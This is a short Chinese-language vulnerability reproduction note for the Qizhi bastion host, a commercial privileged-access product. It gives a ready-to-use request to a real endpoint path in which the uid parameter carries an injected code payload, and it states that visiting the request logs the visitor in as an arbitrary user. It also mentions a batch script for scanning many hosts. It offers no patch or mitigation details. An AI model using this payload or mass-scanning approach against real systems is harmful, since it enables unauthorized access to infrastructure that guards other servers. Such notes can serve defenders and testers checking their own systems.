

# 0x00 软件介绍
齐治堡垒机：国内著名堡垒机厂商  
官网：https://www.qzsec.com/

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
访问如下地址
```
https://x.x.x.x/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```
访问后即为登录状态，表示存在任意用户登录漏洞  


# 0x05 批量脚本
齐治堡垒机-任意用户登录-Vuln-Batch-Detect.py，具体用法见：python3 齐治堡垒机-任意用户登录-Vuln-Batch-Detect.py -h  
效果如下  


# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
